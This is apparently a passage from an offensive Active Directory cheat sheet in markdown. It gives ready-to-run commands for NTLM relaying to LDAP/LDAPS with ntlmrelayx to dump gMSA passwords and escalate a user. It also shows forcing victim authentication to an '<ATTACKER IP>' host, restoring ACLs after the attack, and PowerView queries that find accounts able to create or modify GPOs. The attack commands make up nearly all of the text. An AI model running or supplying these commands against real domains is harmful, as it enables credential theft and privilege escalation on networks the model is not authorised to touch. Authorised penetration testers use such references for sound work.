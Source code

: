 ````
#### Check LDAPS Binding
- https://github.com/zyn3rgy/LdapRelayScan
```
python3 LdapRelayScan.py -method BOTH -dc-ip <IP> -u <USER> -p <PASSWORD>

cme ldap <DC IP> -u <USER> -p <PASSWORD> -M ldap-checker
```

#### Start NTLMRelay
- Requires ldaps
```
sudo python3 ntlmrelayx.py -t ldaps://<DC> --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs --http-port 8080
```

#### Force auth
- [Change lockscreen image](#Change-lockscreen-image)
- [Coercing](#Trigger-target-to-authenticate-to-attacker-machine)

```
Invoke-WebRequest http://<ATTACKER IP>:8080 -UseDefaultCredentials
```

### NTLMRelay
- It is possible to abuse ACL with NTLMRelay abuse

```
ntlmrelayx.py -t ldap://<DC IP> --escalate-user <USER>
```

#### Restore ACL's with aclpwn.py
- NTLMRelayx performs acl attacks a restore file is sived that can be used to restore the ACL's
```
python3 aclpwn.py --restore aclpwn.restore
```

### GPO Abuse
- Members of ```Group Policy Creator Owners``` can create new GPO's. But they cant link it to anything or modify existing GPO’s. The creator will have to modify rights over created GPO.

#### Show who can create new GPO's
```
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=<DOMAIN>,DC=<DOMAIN>" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

#### Show who can write to GP-link attribute on OUs
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl
```

#### Show who can edit GPO's with 4 digit RID
- Has WriteProperty, WriteDACL or WriteOwner
```
Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "<DOMAIN SID>-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

#### Resolve sid + Object dn
```
ConvertFrom-SID <SID>
Get-DomainGPO -Name "{<OBJECT DN SID>}" -Properties DisplayName
```
````